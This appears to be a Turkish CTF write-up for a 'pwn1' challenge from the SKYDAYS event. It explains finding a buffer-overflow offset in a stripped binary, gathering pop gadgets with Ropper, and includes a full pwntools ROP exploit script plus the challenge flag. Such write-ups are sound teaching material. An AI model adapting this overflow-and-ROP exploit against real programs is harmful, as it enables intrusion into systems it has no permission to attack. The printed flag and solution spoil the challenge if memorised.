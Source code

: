 # pwn1 - PWN

flag: `SKYSEC{W0W_Y0U'R3_4_H4CK3R_H0W_CH4R15M4T1C}`

# Writeup

 Bu yazı YTÜ SKYLAB kulübünün düzenlediği SKYDAYS etkinliğindeki CTF yarışmasındaki sorunun çözümünü anlatmaktadır. Sorunun tek çözümü bu değildir, başka çözümler olabilmektedir.

# Soru

 Bize “chal” isimli bir dosya verilmiş, bu dosyayı açtığımızda karşımıza şöyle bir ekran çıkmakta:

![0](assets/0.png)

 Program bizden bir girdi alıyor ve aldığı girdiği ekrana yazdırıyor. Bu durumda bizden sorunun içerdiği bayrağı bulmamız isteniyor.

# Çözüm

 Bize verilen dosyanın özelliklerine bakalım:

![1](assets/1.png)

![2](assets/2.png)

 Dosyanın 64-bit mimaride, ‘little endian’ biçimde, dinamik olarak bağlanmış ve ‘stripped’ olduğunu; koruma olarak ise ‘NX’ ve ‘Partial RELRO’ içerdiğini görüyoruz.

 Dosyamızda bayrağın nerede olduğunu öğrenmek için dosyayı ‘ghidra’ ile inceleyelim:

![3](assets/3.png)

 Dosyamız ‘stripped’ olduğundan fonksiyonların isimlerine ulaşamıyoruz. Bundan dolayı programın ne yaptığını anlamak için “entry” fonksiyonundan başlayarak inceleyelim:

![4](assets/4.png)

 “entry” fonksiyonu bizi ‘FUN_0040128e’ fonksiyonuna yani “main” fonksiyonuna gönderiyor. “main” fonksiyonuna bakalım:

![5](assets/5.png)

 “main” fonksiyonu ise benzer bir şekilde ‘FUN_00401231’ fonksiyonunu çağırıyor. ‘FUN_00401231’ fonksiyonuna bakalım:

![6](assets/6.png)

 Programı çalıştırdığımızda karşımıza çıkan ekranın kodunu görüyoruz. Bu kod başka bir fonksiyonu çağırmıyor fakat bayrağı bize verecek fonksiyonu bulmamız gerek. Bunun için diğer fonksiyonlara bakalım:

![7](assets/7.png)

 Karşımıza böyle ilginç bir fonksiyon çıkıyor. Bu fonksiyon üç adet parametre alıyor ve bu parametreler sırasıyla ‘0xdeadbeef’, ‘0xc0debabe’ ve ‘0xcacadada’ değerlerine eşit olursa ‘flag.txt’ dosyasının içeriğini ekrana yazdırıyor. Eğer parametreler bu değerlere eşit değilse ekrana “Nope, that’s not how you’re supposed to solve this challenge :D” yazdırıyor.

 ‘flag.txt’ dosyası tam da bizim erişmek istediğimiz dosya. Bunun için bir şekilde bu fonksiyona erişip parametrelere doğru değerleri yazmamız gerekiyor. Bunu yapmak için de ‘FUN_00401231’ fonksiyonundaki ‘buffer’ı kullanabiliriz yani bir ‘buffer overflow’ atağı yapabiliriz.

 Öncelikle programımızı ‘debugger’ yardımıyla çalıştırıp ‘rip register’ının ‘offset’ini bulmamız gerek. Bunu şu şekilde yapabiliriz:

![8](assets/8.png)

 Burada ‘rsp register’ına dolan en soldaki değerlerden sonraki değerler ‘rip register’ına ulaşacak değerlerdir. Bundan dolayı ‘offset’imizi öğrenmek için ‘daaaaaaa’ değerinin ‘pattern’imizde kaçıncı sırada geldiğini bulmamız gerekir:

![9](assets/9.png)

 Böylelikle ‘offset’imizin 24 olduğunu bulmuş olduk, bu ileride işimize yarayacak.

 Bayrağı yazdıracak fonksiyona dönmek için bu fonksiyonun adresine ihtiyacımız var. Sadece dönmemiz de yetmeyecek, parametreleri de uygun değerlerle eşleştirmemiz gerekiyor. Bunun için önce parametreleri oluşturmalı daha sonra fonksiyonu çağırmalıyız. Parametrelerin hangi ‘register’lar ile kontrol edildiğini öğrenmek için ‘ghidra’da açtığımız fonksiyonun ‘assembly’ kısmına bakalım:

![10](assets/10.png)

 Fonksiyonun adresini ‘0x401176’ olarak bulmuş olduk. Parametreleri program sırasıyla ‘rdi’, ‘rsi’, ‘rdx’ ‘register’larındaki değerlerle karşılaştırıyor yani bu ‘register’lara uygun değerleri yazmamız gerekecek. Bunu yapmak için ise ‘pop’ ‘gadget’ına ihtiyacımız var. ‘Ropper’ aletini kullanarak bu ‘gadget’lara ulaşabiliriz:

![11](assets/11.png)

 Bize gereken ‘gadget’ları bulmuş olduk. Bunları not edelim. İhtiyacımız olan bilgileri elde ettiğimize göre artık ‘script’imizi yazabiliriz:

```python
from pwn import *

#terminalde script'i GDB,REMOTE,LOCAL modlarında çalıştırmak için:
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

#binary dosyasının mimarisini ayarlamak için:
exe = './chal' #dosya adı
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug' #olan biteni anlamak için

#####################################
# exploit'i buradan sonra yazacağız #
#####################################

#BOF için gdb'den öğrendiğimiz offsetimizi buraya yazıyoruz:
offset = 24

#ropper'dan öğrendiğimiz gadget adreslerini buraya yazıyoruz:
pop_rdi = 0x401289
pop_rdx = 0x401287
pop_rsi = 0x401285

#programı başlatıyoruz:
io = start()

#payload'ı oluşturuyoruz:
payload = flat({
    offset: [
        pop_rdi,  # Pop the next value to RDI
        0xdeadbeefdeadbeef,
        pop_rsi,  # Pop the next value to RSI (and junk into R15)
        0xc0debabec0debabe,
        pop_rdx,
        0xcacadadacacadada,
        # With params in correct registers, call hacked function
        0x401176
    ]
})

#payload'ımızı yolluyoruz:
io.sendlineafter(b'name:', payload)

#flag'i okuyabilmek için interaktif moda geçiyoruz:
io.interactive()
```

 ‘script’imizi çalıştırdığımızda bayrağımızı elde ediyoruz:

![12](assets/12.png)

---

written by: KOTAMAN
